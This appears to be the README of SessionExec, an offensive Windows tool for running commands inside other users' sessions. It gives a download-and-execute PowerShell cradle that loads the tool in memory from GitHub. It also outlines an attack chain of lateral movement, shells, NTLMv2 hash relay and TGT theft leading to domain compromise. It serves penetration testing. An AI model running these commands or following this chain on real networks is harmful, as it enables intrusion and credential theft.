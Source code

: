 # SessionExec

SessionExec allows you to execute specified commands in different user sessions on Windows systems, either targeting a specific session ID or all sessions, with the option to suppress command output.

The tool is inspired to the [EOP COM Session Moniker](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) exploit code, released a long time ago by James Forshaw.

SessionExec utilises Windows APIs to query session information and create processes within those sessions.

Compile SessionExec.cs running the following command from Build Tools for Visual Studio

```
csc /reference:System.Runtime.InteropServices.dll /reference:System.Runtime.InteropServices.RuntimeInformation.dll SessionExec.cs /out:SessionExec.exe
```

Or you can use `Invoke-SessionExec.ps1` which is the same script, but runs in memory using Reflective Load method.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/SessionExec/main/Invoke-SessionExec.ps1')
```

NOTE: SYSTEM privileges are required to run this tool successfully. To elevate from Administrator to SYSTEM, use [Invoke-RunAsSystem](https://github.com/Leo4j/Invoke-RunAsSystem)

## Usage

```
SessionExec.exe <SessionID|All> <Command> [/NoOutput]
```
```
Invoke-SessionExec <SessionID|All> <Command> [/NoOutput]
```

Check what sessions are available using the `quser` command. Then run a command on a specific session, or `All` Sessions.

![image](https://github.com/user-attachments/assets/d9026750-2441-4462-a2d3-2d7179964045)

## Thoughts

If you find yourself being a local admin on one or multiple machines within a network, and there are user sessions on those targets, you could use [SessionExec](https://github.com/Leo4j/SessionExec) and [Find-LocalAdminAccess](https://github.com/Leo4j/Find-LocalAdminAccess) together to check if any of those users have local admin access over other machines in the network.

If they do, you could then repeat the process for users having a session on those machines. This chain of actions could theoretically lead to a full domain compromise.

Additionally, you could obtain shells back using [Amnesiac](https://github.com/Leo4j/Amnesiac), capture NTLMv2 hashes and relay them, grab TGTs, and much much more, all in an automated fashion.

I'll implement this concept into [Amnesiac](https://github.com/Leo4j/Amnesiac), and together with [The-Viper-One](https://github.com/The-Viper-One), we are working on implementing it into [PsMapExec](https://github.com/The-Viper-One/PsMapExec) too.

For now, here is a Proof of Concept (PoC):

![SessionExec](https://github.com/user-attachments/assets/b4e29e6f-b4e5-48c9-bd0c-fe44def7d74c)

